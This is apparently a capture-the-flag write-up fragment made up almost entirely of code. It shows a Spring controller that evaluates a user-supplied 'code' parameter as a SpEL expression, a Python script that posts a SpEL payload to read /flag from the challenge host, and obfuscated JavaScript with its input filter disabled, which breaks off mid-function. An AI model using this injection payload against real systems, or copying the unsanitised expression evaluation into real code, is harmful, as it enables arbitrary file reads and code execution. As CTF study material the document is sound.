 ```java

    @RequestMapping("/")
    public String main(HttpServletRequest request,@RequestParam(required = false) String code,@RequestParam(required = false) String url) throws MalformedURLException {
        String requestURI = request.getRequestURI();
        if(requestURI.equals("/")){
            return "nonono";
        }
        else{
            if (code!=null) {
                String s = parser.parseExpression(code).getValue().toString();
                return s;
            } else {
                return "so?";
            }
        }
    }
}

```









```python
from sys import base_exec_prefix
import requests
import base64

from requests.api import post
url = 'http://6911b89e-80ea-48af-aedf-ba32b774a919.web.woooo.tech/'
url += '/'

postdata = {'code' : 'new java.io.BufferedReader(new java.io.FileReader(new String[]{"/flag"})).readLine()'}

req = requests.post(url= url ,data= postdata)
out = req.text

print(out)
```



### Template

```javascript
function submit() {
    var _0x3bd89c = document['getElementById'](de(list1[_0x34a0('0x0')](-0x1), list1[0x0]))[_0x34a0('0x4')];
    if (/* _0x3bd89c['search']('{|}|%') != -0x1 */ false) {
        alert(de(list1[_0x34a0('0x0')](-0x1), list1[0x1]));
    } else {
        var _0x5e7fb6 = abc(de(list1['slice'](-0x1), list1[0x2]), _0x3bd89c);

        var _0x5a102d = new XMLHttpRequest();
        _0x5a102d[_0x34a0('0x9')](de(list1[_0x34a0(_0x46d9('0x3'))](-0x1), list1[0x3]), de(list1[_0x34a0('0x0')](-0x1), list1[0x4]), !![]);
        _0x5a102d[_0x34a0(_0x46d9('0xc'))](de(list1[_0x46d9('0x11')](-0x1), list1[0x5]), de(list1[_0x34a0('0x0')](-0x1), list1[0x6]));

        var _0x37dc55 = de(list1[_0x46d9('0x11')](-0x1), list1[0x7]) + btoa(_0x5e7fb6);
        _0x5a102d[_0x34a0('0xb')](_0x37dc55);
        _0x5a102d[_0x34a0(_0x46d9('0x1'))] = function () {
```